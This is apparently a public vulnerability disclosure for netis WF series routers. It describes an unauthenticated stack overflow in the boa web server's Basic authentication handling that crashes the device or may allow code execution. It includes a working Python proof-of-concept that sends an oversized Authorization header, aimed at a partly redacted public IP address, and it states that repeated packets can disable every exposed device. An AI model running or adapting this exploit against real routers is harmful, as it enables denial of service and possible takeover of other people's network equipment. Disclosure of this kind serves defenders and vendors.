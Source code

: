 ## netis Denial of service
Product: netis WF2411-WF2880 (http://www.netis-systems.com/Home/info/id/2/hi/21.html)

version：The latest firmware --netis(WF2411)-V2.1.36123(http://www.netis-systems.com/Suppory/de_details/id/1/de/29.html)

Different device firmware version numbers may be different

![images](https://github.com/WhooAmii/iot/blob/master/netis/1.png)

Vulnerability location: file:  /bin/boa

function:user_auth->user_ok

Vulnerability Type: buffer overflow cause Denial of service
## Vulnerability Description
There is a stack overflow vulnerability that does not require authentication

This can cause Denial of service or  remote code execution
An attacker can restart a remote device by sending a malicious packet.

Code execution can also be achieved through ROP technology, but it is more difficult

This vulnerability can be triggered by a normal get packet
![images](https://github.com/WhooAmii/iot/blob/master/netis/2.png)
## POC
```
import requests
import sys
import struct
import time
import base64
from pwn import *






def syscmd1(a):
	p=remote('195.211.?',8080)
	payload=''
	payload+='GET / HTTP/1.1\r\n'
	payload+='Host: 192.168.0.1\r\n'
	payload+='Authorization: Basic '+base64.b64encode(payload1)+'\r\n'
	payload+='Upgrade-Insecure-Requests: 1\r\n'
	payload+='User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98\r\n'
	payload+='Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8\r\n'

	payload+='Accept-Encoding: gzip, deflate\r\n'
	payload+='Accept-Language: zh-CN,zh;q=0.9"'
	payload+='Connection: close\r\n'
	payload+='\r\n'
	print payload
	p.send(payload)
	p.close()

if __name__ == "__main__":

				payload1='a:aa'+'a'*0x80
				print len(payload1)
				syscmd1('123')		
				print 'down'


```
![images](https://github.com/WhooAmii/iot/blob/master/netis/3.png)
![images](https://github.com/WhooAmii/iot/blob/master/netis/4.png)

## Harm
Can be accessed on the public network
An attacker can make all WF Series devices unusable by sending packets continuously
![images](https://github.com/WhooAmii/iot/blob/master/netis/6.png)

![images](https://github.com/WhooAmii/iot/blob/master/netis/7.png)

![images](https://github.com/WhooAmii/iot/blob/master/netis/8.png)

![images](https://github.com/WhooAmii/iot/blob/master/netis/9.png)
